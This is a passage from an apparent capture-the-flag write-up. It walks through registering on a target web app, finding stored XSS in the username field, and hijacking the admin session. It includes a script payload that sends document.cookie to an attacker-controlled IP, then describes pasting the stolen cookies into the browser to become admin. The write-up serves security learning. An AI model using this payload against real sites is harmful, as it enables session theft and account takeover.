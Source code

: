 {{< figure src="images/Untitled%205.png">}}

Lets register our account maybe we should open our burp 🤔

Once logged in we are in dashboard

{{< figure src="images/Untitled%206.png">}}

I have option to send messages, receive them, store (which we don’t have access to), we got a forums page and finally place to enter the early access key.

{{< figure src="images/Untitled%207.png">}}

It seems like we can ask the admin to give use `game-key` for early access of the product. Lets try sending a message. 

{{< figure src="images/Untitled%208.png">}}

{{< figure src="images/Untitled%209.png">}}

We have received the reply 

{{< figure src="images/Untitled%2010.png">}}

*P.S if you are like why the screenshot of the website is in white them all of a sudden, cuz I moved from Firefox browser which had the extension for dark theme to burp embedded browser.* 

### Phishing

Lets try sending some phishing links 

{{< figure src="images/Untitled%2011.png">}}

**Failed** doesn’t work

### XSS

{{< figure src="images/Untitled%2012.png">}}

It looks like the username part is vulnerable to XSS. 

### Grabbing Admin Cookies - via XSS

I used payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) and got the cookie of the admin via XSS. 

```jsx
<script>document.location='http://10.10.14.90/XSS/grabber.php?c='+document.cookie</script>
```

{{< figure src="images/Untitled%2013.png">}}

I URL decoded the cookies I got, not sure if its really needed but for the safer side 

{{< figure src="images/Untitled%2014.png">}}

and then I copy pasted those cookies into the browser and visited home page, and the user changed to admin!

{{< figure src="images/Untitled%2015.png">}}

### Offline key validator
